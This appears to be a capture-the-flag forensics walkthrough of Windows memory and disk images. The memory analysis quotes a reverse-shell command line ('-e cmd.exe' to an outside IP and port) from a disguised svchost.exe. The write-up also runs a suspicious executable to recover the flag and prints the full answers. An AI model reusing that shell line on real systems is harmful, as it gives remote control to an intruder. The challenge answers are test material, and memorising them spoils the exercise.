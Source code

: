 # There are two files given. The .mem file is the dump of of ram of windows, while the .sys is the dump of virtual memory. Lets use volatility3, as given in the attackbox, and figure out the answers to the required tasks!

## Memory
1. Since, we are asked for the insentification of the suspecious activity in the memory image, lets run the [pslist] command on [memdump.mem] file using the command [../volatility3/vol.py -f memdump.mem windows.pslist] to check the processes running, along with their relations with their parent processes. Also, run the command [../volatility3/vol.py -f memdump.mem windows.pslist] to analyze the details of commands executed by each process. Here, we observe that the [svchost.exe] is not assossiated with its parent process. Rather, it is linked with [powershell.exe]. This makes this file suspecious as it is ran through powershell with some command line arguments [-e cmd.exe 10.14.74.53 6996] which most probably indicates the connection with some remote user. Hence, this is the malicious process with the complete path [C:\Tools\svchost.exe]. Also observe that this file is located in [C:\Tools\] directory, while this file is found in [C:\Windows\System32\].

2. Since it is given in the question that the process shares the parent with the process identified in the previous task, that required task id [notepad.exe], and the full path to the txt file is 
[C:\Users\Bobby\Documents\tmp\part2.txt]. This file may contain any code that is involved in remote code execution.

## Disk
1. Open the [FTK Imager] in the new windows machine. Open the [Robert.dd] in the FTK. Click on the imae loaded to expand it. Notice a root folder. Expand it and you will see [Users] and [Tools] directories. Right click on both one by one and export opbjects. We are using these two folders because these are the directories that contained the malicious files in the previous tasks. Now go to the Users, here is the directory of [Bobby]. Expand it and go to [Documents] and then [tmp]. Here are the two files that we were in the search of. This is the same path that we submitted in the previous task. Now open the [connector.ps1]. Notice that it was created using the file [svchost.exe], which is present in the [C:\Tools\] directory. Hence, go this directory in the FTK and click on the exe file. It will show some files. One file contains a single word that seems to be some name, while the other refers to some path. The path contains a keyword [Autoconnector]. Search for this keyword in the exported directory. It will give an exe file [Autoconnector.exe]. This is the required artifect, with full path [C:\Tools\windows-networking-tools-master\windows-networking-tools-master\LatestBuilds\x64\Autoconnector.exe].

2. Remeber to export all the registry files from the above directories as well as the windows directory. Open all the registry files in the registry explorer. Search for the keyword [autoconnector.exe] using ctrl+F. Some paths will be list down, in which there is a path with a keyword [bam]. This is the correct path as an evidence of the malicious executable [HKEY_LOCAL_MACHINE\SYSTEM\ControlSet001\Services\bam\State\UserSettings\S-1-5-21-1966530601-3185510712-10604624-1008].

3. Open the [path2.txt] that we discovered. The content of this file is the answer [faDB3XzJfcDF2T1R9].

4. In the text file path2.txt, we actually got the second part of the flag. So, we have to find the first part now. Since we are given a disk image, we should now analyze the logs of this image. Lets go to the directory 
[C:\Windows\System32\winevt\Logs\] which actually contains the windows event files. Since we are playing with a powershell script, so lets find the log file for the keyword powershell. But before that, export all the logs present in the log folder so that we can have access to the log files in real. Now, there is a powershell operational log file which we needed. Open the file in the Windows Event Viewer. Search for the keyword [connector.ps1] which was our powershell script. But no success. To find the first flag, only remaining big actual executables. So, export the Autoconnector.exe file from the directory that we discovered in the previous task. Double click on the executable to run it. After that, check the logs of your windows. You have to examine the same log file that we tried for the image previously. Search for the keyword connector.ps1 and you will see an event in which we can clearly see some flag being set in the registry hive. The value field gives us the first part of the flag [VEhNezZsNERfeTB1X2tOT3d]. Combine both the parts and decode it using base64. It will give us the complete actual flag [THM{6l4D_y0u_kNOw_h0w_2_p1vOT}].

